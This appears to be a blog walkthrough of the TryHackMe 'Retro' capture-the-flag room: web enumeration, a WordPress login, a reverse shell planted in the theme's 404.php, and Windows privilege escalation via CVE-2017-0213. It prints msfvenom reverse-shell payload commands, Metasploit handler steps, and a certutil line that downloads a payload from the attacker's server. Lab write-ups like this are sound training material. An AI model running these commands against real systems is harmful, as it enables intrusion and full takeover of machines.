```yaml
---
title: "Retro CTF"
seoDescription: "This walkthrough will go over the Retro room found on TryHackMe. The objective behind this room is to use a bit of passive recon to find a set of credential"
datePublished: Mon Aug 07 2023 09:07:23 GMT+0000 (Coordinated Universal Time)
cuid: cll0nft0w000g09miedbsablx
slug: retro-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691588234525/d53e0475-4823-4733-a056-ffc59eb73815.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [**Retro**](https://tryhackme.com/room/retro) room found on [**TryHackMe**](https://tryhackme.com/). The objective behind this room is to use a bit of passive recon to find a set of credentials in order to RDP into the box, identify a vulnerability in the `Windows COM` `(CVE-2017-0213)`, and privesc to `NT AUTHORITY\SYSTEM`.

### Step 1: What's Out There?

```bash
nmap -sC -sV -p- -Pn retro.thm --min-rate=1000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398315139/3276f81f-931e-46fc-a431-507ba270bf34.png align="center")

Looks like we have a webserver and an RDP session open. Let's check out what the web server can offer us.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398334110/a54a66b3-878f-4450-be00-382875ec42e0.png align="center")

A default `Microsoft IIS` page. We'll use `ffuf` to enumerate for directories.

### Step 2: FFUF

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://retro.thm/FUZZ -fs 703
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398377905/5a5ad8d7-dd64-4f55-b315-8a631ebb9c81.png align="center")

Nice, we discovered a directory called `/retro`. Let's go to it.

### Step 3: Finding Credentials

We discovered a blog that seems to be run by a username `Wade`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398407110/e8fa1ff2-f791-4a96-a2d9-c9f1ba46c782.png align="center")

After downloading and viewing the `Comments RSS` data, we discovered text that might be a potential password.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399159508/449ee0ca-cad1-4dcb-a2a0-b59ba4aa2af5.png align="center")

Taking this information and plugging it into the `Site Admin` link allows us to log in to the WordPress admin panel.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398430562/494d3ee4-899a-4795-adf3-b97906094b02.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398433597/744cfd33-ecb7-423b-b836-30bed77627d1.png align="center")

### Step 4: Initial Foothold

Based on my experience with getting a reverse shell with WordPress, we would need to modify the `404.php` file and inject our generated shell code. We can do this with `msfvenom`.

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f raw -o retro_shell.php
```

Now let's start initializing our handler so we can catch the shell once it executes.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload php/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LHOST 1337`
    
6. `exploit`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398464051/5c95ac08-7e7c-49a3-9514-c4a3d63bc638.png align="center")

From here we want to copy our retro\_shell.php code and paste it into `404.php`.We can do this by navigating to Appearance &gt; Theme Editor &gt; 404 Template. Delete the content of the `404.php` file and paste it into your shell. Should look like this.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398480745/2db8d5ef-e503-4dc9-9f49-8772d9867edc.png align="center")

Now navigate to the file in your browser ([http://retro.thm/retro/wp-content/themes/90s-retro/404.php](http://retro.thm/retro/wp-content/themes/90s-retro/404.php)) and it will drop you into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398490021/d1f3fe9d-5e5e-439d-9033-b0611dee0c68.png align="center")

### Step 5: Detour

Okay, so for some reason I could not get the meterpreter shell to stabilize with the 404.php route. But, that's alright. Sometimes we have to get creative and approach a problem from a different angle... in the end, we still get the same outcome. Root.

So what I decided to do is RDP into the box with our same credentials and upload a payload, set my handler, and catch it with a stable meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398523489/9c78942b-a252-4569-8b2b-238ee9494308.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398526561/f18a5b32-ae22-4469-b5c9-49e5096bf9e5.png align="center")

Generate a payload using `msfvenom`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398540276/0f5e97a2-b254-4ccd-b7cb-d58b87a1bd9b.png align="center")

Start an HTTP Server and transfer it over using `certutil`.

```bash
certutil -urlcache -f http://10.13.28.215:8000/payload.exe payload.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398553018/d660007e-e76a-4ec6-ac77-c2bc1f327f0d.png align="center")

Now we want to set up our listener and catch the shell. Same as before with a slight modification.

1. `msfconsole`
    
2. `use exploit/multi/handler`
    
3. `set payload windows/x64/meterpreter/reverse_tcp`
    
4. `set LHOST <ATTACKER_IP>`
    
5. `set LPORT 1337`
    
6. `exploit`
    

Run the payload from the victim box and drop it into a meterpreter session.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398569944/b784bfca-e595-4ef2-83ed-4120ec8541dc.png align="center")

### Step 6: Privesc

We're going to use the `Windows Exploit Suggester (WES)` to find a way to elevate our privileges. First, we need to pull the system's information in order to pull this off.

> `systeminfo > sysinfo.txt`

Now we can pull it down to our attack box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398607012/92071128-8d78-40c2-9043-f7c95ff08f5e.png align="center")

From here we can use `WES` to find a privesc vector (update database before running:

```bash
./windows-exploit-suggester.py --update
```

```bash
./windows-exploit-suggester.py --database 2023-08-07-mssb.xls --sysinfo ~/sysinfo.txt --ostext 'windows 10 64-bit' -l
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691398680395/042c573a-f970-4fba-b5e9-26512fb32738.png align="center")

This build of Windows 10 is vulnerable to a `Windows COM` privesc, `CVE-2017-0213`. There's a binary that we can use to automate this exploit for us. Let's download it to our attack box and upload it to our victim. Link to binary here: [https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213)

Once we get it on our victim box we can run it and then move over to our RDP session and find a new CMD shell spawned with `NT AUTHORITY\SYSTEM` rights.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691399172768/3d8491c3-f96f-4d6b-912d-db3096f8356b.png align="center")

Finally...this one was very difficult and time-consuming. I ended up going down multiple rabbit holes and failing at stabilizing shells more times than I'd like to admit. But all-in-all, I can say this box was rewarding and has taught me a lot about Windows privesc. I hope you enjoyed this walkthrough, and as always, Happy Hacking.